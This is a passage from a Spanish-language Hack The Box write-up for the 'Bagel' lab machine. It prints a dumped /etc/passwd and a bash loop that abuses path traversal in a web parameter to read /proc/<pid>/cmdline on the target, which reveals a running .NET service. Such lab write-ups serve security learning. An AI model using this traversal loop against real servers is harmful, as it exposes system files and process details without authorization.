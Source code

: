 ```bash
systemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin
systemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
setroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:994:992::/var/lib/chrony:/sbin/nologin
dnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
systemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin
systemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
_laurel:x:987:987::/var/log/laurel:/bin/false
```

Bueno después de estar enumerando no encontramos cosas interesantes así que algo que podemos hacer es fuzzear los procesos que se están corriendo en el sistema, podemos hacerlo con bash 

```bash
❯ catn fuzz.sh
for i in $(seq 900 1000); do
    curl "http://10.10.11.201:8000/?page=../../../../../../../proc/$i/cmdline" -o -;
    echo "PID => $i";
done
```

Después de ejecutarlo vemos un que se esta corriendo un esto `dotnet/opt/bagel/bin/Debug/net6.0/bagel.dllPID => 953` 

![](/assets/images/htb-writeup-bagel/web4.png)
